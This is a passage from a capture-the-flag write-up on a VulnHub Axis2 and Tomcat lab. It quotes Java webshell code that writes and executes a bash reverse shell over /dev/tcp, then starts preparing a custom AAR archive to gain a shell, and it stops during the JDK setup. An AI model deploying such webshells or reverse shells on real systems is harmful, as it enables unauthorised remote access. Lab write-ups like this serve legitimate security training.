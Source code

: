 To figure out why, we should dig through the source code.

If you look at [the source code of the `Utils` class](https://github.com/tennc/webshell/blob/master/other/Axis2Shell/Utils.java), you'll see why this is happening:

```java
ppublic class Utils {
    [...]
    public static String shell(String host, int port) {
        [...]
        if (os.startsWith("linux")) {
                    
            String name="wooyun.sh";
            File file=new File(name);
            
            FileWriter writer=new FileWriter(file);
            writer.write("/bin/bash -i > /dev/tcp/"+host+"/"+port+" 0<&1 2>&1"+"\n");
            writer.flush();
            writer.close();
            Runtime.getRuntime().exec("chmod u+x "+name);
            Process process = Runtime.getRuntime().exec("bash "+name);
            process.waitFor();
            
            file.delete();
        } [...]
    }
    [...]
```

As you can see, the reverse shell payload is being written into the disk, and the filename is `wooyun.sh`. However, **it's written into the current work directory**, which may or may not have enough privilege to write files into that directory.

To solve this problem and get a shell on the target machine, we can deploy our own AAR archive file:

But before we do that, we should check the target machine's JDK (Java) version. To do so, we can go back to endpoint `/axis2/` and view the target's environment variables:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212221310.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212221330.png)

As you can see, **the target machine's JDK version is `1.6.0_18`**.

That being said, let's download JDK version 1.6:

- Download URL: [https://download.oracle.com/otn/java/jdk/6u1/jdk-6u1-linux-amd64.bin?AuthParam=1702433572_6f0df071533ca746baa478a415fda842](https://download.oracle.com/otn/java/jdk/6u1/jdk-6u1-linux-amd64.bin?AuthParam=1702433572_6f0df071533ca746baa478a415fda842)

- Extract the JDK file:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212221940.png)

- Accept the license terms by hitting `q` and enter `yes`:
